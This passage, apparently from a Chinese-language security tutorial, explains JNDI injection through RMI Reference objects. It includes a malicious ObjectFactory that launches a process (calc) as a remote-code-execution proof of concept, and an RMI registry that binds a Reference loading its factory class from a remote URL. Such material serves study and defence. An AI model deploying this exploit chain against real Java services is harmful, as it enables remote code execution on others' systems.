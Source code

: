 所以我们这里就可以自己实现一个OjbectFactory接口的类，并重写getObjectInstance方法

```java
public class ReferenceObjectFactory implements ObjectFactory {
    /**
     * @param obj  包含可在创建对象时使用的位置或引用信息的对象（可能为 null）。
     * @param name 此对象相对于 ctx 的名称，如果没有指定名称，则该参数为 null。
     * @param ctx  一个上下文，name 参数是相对于该上下文指定的，如果 name 相对于默认初始上下文，则该参数为 null。
     * @param env  创建对象时使用的环境（可能为 null）。
     * @return 对象工厂创建出的对象
     * @throws Exception 对象创建异常
     */
    public Object getObjectInstance(Object obj, Name name, Context ctx, Hashtable<?, ?> env) throws Exception {
        // 在创建对象过程中插入恶意的攻击代码，或者直接创建一个本地命令执行的Process对象从而实现RCE
        return Runtime.getRuntime().exec("calc");
    }
```

**主要原理：JNDI Reference 远程加载Object Factory类的特性**

```java
Reference(String name)
    为类名为"name"的对象构造一个新的应用
Reference(String name , RefAddr addr)
    为类型为"name"的对象和地址构造一个新引用
Reference(String name, ReAddr addr, String factory,String factoryLocation)
    为类名为"name"的对象，对象工厂的类名和为止以及对象的地址构造一个新的引用
Reference(String name,String factory,String factoryLocation)
    为类名为"name"的对象以及对象工厂的类名和位置构造一个新的应用
```

通过RMI来绑定一个Reference对象

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Test {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        String referenceUrl="http://localhost:9999";
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("refer","fefer",referenceUrl);
        ReferenceWrapper refer = new ReferenceWrapper(reference);
        registry.bind("refer",refer);
    }
}
```
